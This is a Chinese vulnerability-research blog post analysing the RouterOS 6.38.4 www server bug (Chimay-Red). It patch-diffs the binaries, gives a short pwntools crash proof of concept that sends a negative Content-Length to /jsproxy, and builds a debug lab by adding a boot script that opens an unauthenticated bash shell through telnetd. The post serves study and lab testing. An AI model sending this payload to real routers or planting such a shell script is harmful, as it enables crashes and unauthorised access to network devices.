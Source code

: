 ```yaml
---
title: 一步一步 Pwn RouterOS之调试环境搭建&&漏洞分析&&poc
authorId: hac425
tags:
  - diff
  - setup env
categories:
  - pwn_router_os
date: 2018-01-05 23:13:00
---
```

### 前言


---
本文由 **本人** 首发于 先知安全技术社区：  https://xianzhi.aliyun.com/forum/user/5274

---

本文分析 `Vault 7` 中泄露的 `RouterOs` 漏洞。漏洞影响 `6.38.5` 以下的版本。

```
What's new in 6.38.5 (2017-Mar-09 11:32):
!) www - fixed http server vulnerability;
```

文中涉及的文件：

链接: https://pan.baidu.com/s/1i5oznSh 密码: 9r43


### 正文


**补丁对比&&漏洞分析**

首先我们先来看看漏洞的原理，漏洞位于 `www` 文件。

我们需要拿到 `www` 文件， 直接用 `binwalk` 提取出 `router os` 镜像文件的所有内容。

```
binwalk -Me mikrotik-6.38.4.iso
```
然后在提取出的文件中搜索即可。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515165746693cgztdv73.png?imageslim)

同样的方法提取出 `mikrotik-6.38.5.iso` 中的 `www` 文件。

然后使用 `diaphora` 插件 对 这两个文件进行补丁比对 （因为 `6.38.5` 正好修复了漏洞）


首先打开 `www_6384` (6.38.4版本的文件）， 然后使用 `diaphora` 导出 `sqlite` 数据库， `diaphora` 使用这个数据库文件进行 `diff` 操作。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515166093523oxrusj58.png?imageslim)


然后打开 `www_6385` (6.38.5版本的文件），使用 `diaphora` 进行 `diff`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515166195628syhogd51.png?imageslim)

找到相似度比较低的函数

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515165950046enxkrdzl.png?imageslim)

选中要查看差异的 条目 ，然后右键 

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515166256270id9v1odu.png?imageslim)
可以选择查看 `diff` 的选项，使用 `diff pseudo-code` 就可以对 `伪c` 代码  `diff`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515166371796rzohbnad.png?imageslim)

对比 `diff` 可以发现， 修复漏洞后的程序 没有了 `alloca`， 而是直接使用 `string::string` 构造了 字符串。

下面直接分析 `www_6384` .

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515166511848had11egp.png?imageslim)
获取 `content-length` 的值之后，就传给了 `alloca` 分配内存。

这里和前文不同的是，这里 `alloca`的参数是 无符号数。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515166646043t0iiacnt.png?imageslim)
所以我们能修改的是栈顶以上的数据，触发崩溃的poc.

**poc**

```
from pwn import *
def makeHeader(num):
    return "POST /jsproxy HTTP/1.1\r\nContent-Length: " + str(num) + "\r\n\r\n"
s1 = remote("192.168.2.124", 80)
s1.send(makeHeader(-1) + "A" * 1000)
```

注：ip 按实际情况设置


**调试环境搭建&&Poc测试**


首先我们得先安装 `routeros`， 使用 `vmware` 加载 `iso`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/151516721340747r1xr5x.png?imageslim)

注： `routeros` 是 32 位的， 硬盘类型要为 `ide` 否则会找不到驱动。

然后开启虚拟机，就会进入

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515167336617v46o0ig8.png?imageslim)

按 `a`选择所有 ，然后按 `i` 进行安装，然后一直输入 `y` 确定即可。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515167432691gf6rqz53.png?imageslim)
安装完成后，重启，就会进入 登录界面了，使用 `admin` 和空密码登录即可。

然后输入 `setup` ，接着输入 `a`, 按照提示配置好 `ip` 地址。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515167541207kvenwy3d.png?imageslim)
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515167628938ab0thmw5.png?imageslim)

然后就可以使用 `ssh` 登录了。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515167693696iosa57jc.png?imageslim)


`Router Os ` 对 `linux` 做了大量的裁剪，所以我们需要给系统增加一些文件方便进行调试，`busybox` 和 `gdbserver` （文件在百度云内）。


要增加文件需要使用一个 `live-cd` 版的 `linux` 挂载 `router os` 的磁盘分区，增加文件。这里使用了 `ubuntu`. 


关闭虚拟机，设置光盘镜像，然后修改引导为 光盘即可进入 `live-cd`。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515168110904jefbfa9f.png?imageslim)


选择 `try ubuntu`, 进入系统后，挂载 `/dev/sda1` 和 `/dev/sda2`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515168515234ev3kupe7.png?imageslim)

把 `busybox` 和 `gdbserver` 放到 `bin` 目录(不是在`/dev/sda1`  就是在 `/dev/sda2` )下，然后在 `etc` 目录下新建 `rc.d/run.d/S99own `, 内容为

```
#!/bin/bash
mkdir /ram/mybin
/flash/bin/busybox-i686 --install -s /ram/mybin
export PATH=/ram/mybin:$PATH
telnetd -p 23000 -l bash
```
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515168595733d7l2hl3n.png?imageslim)

`umount` 然后去掉光盘， 重新启动，应该就可以 `telnet 192.168.2.124 23000` 连接了。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515168775379dbz2ytfl.png?imageslim)

此时使用 

`gdbserver.i686 192.168.2.124:5050 --attach $(pidof www)`

如图
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515168937045jx5tlvv1.png?imageslim)


然后 gdb 连上去。


```
target remote 192.168.2.124:5050
```


-
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515168983975bczey67j.png?imageslim)



运行`poc`,程序崩溃。



![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515169108092kn41spn7.png?imageslim)



参考：

https://github.com/BigNerd95/Chimay-Red/